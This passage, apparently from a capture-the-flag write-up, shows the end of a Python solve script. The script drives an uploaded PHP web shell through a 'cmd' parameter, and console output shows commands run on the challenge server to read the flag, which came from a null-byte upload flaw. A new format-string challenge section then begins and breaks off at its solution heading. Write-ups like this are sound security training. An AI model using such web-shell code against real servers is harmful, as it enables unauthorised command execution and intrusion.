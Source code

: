 ```python
            while(1):
                cmd = input('$ ')
                response = session.get(link + '?cmd=' + requests.utils.quote(cmd))
                print(response.text)

    except requests.exceptions.RequestException as e:
        print("Error:", e)
```
{: file="solve.py"}

And obviously get the flag:
```console
> python solve.py
$ id
�PNG

uid=1000(ctf-player) gid=1000(ctf-player) groups=1000(ctf-player)

$ ls /var/www/html/chal
�PNG

s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
upload.php
uploaded

$ cat /var/www/html/chal/s0_7h15_15_7h3_fl496_y0u_ar3_54rch1n9_f0r.txt
�PNG

flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}
```

### FLAG

`flag{n0t_3v3ry_t1m3_y0u_w1ll_s33_nu11byt3_vuln3r4b1l1ty_0sdfdgh554fd}`

## pwn/Baby Formatter

This challenge was super interesting and difficult for me, however due to lack of time, I couldn't solve it during the competition. Luckily their server was running afterwards so I pwned it a day later.

### The Challenge
```
Just another format string challenge. Aren't they too easy these days :)
 
https://staticbckdr.infoseciitr.in/babyformatter.zip
 
nc 34.70.212.151 8003
```
### The Solution
